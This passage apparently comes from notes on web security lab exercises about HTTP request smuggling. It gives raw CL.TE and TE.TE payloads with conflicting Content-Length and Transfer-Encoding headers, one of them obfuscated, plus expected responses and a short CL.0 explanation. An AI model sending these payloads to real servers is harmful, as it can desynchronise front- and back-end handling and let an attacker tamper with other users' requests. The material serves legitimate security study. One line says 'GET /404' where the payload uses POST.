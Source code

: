 ```
0
```
issue the following request twice:
The second response should say: `Unrecognized method GPOST.`
Note - ensure that the "Update Content-Length" option is unchecked

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to the next request that is received. 
`The second request should receive an HTTP 404 response.`


#### TE.TE

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
The second response should say: `Unrecognized method GPOST.`
Note - ensure that the "Update Content-Length" option is unchecked


#### CL.0

In some instances, servers can be persuaded to ignore the Content-Length header, meaning they assume that each request finishes at the end of the headers. This is effectively the same as treating the Content-Length as 0.
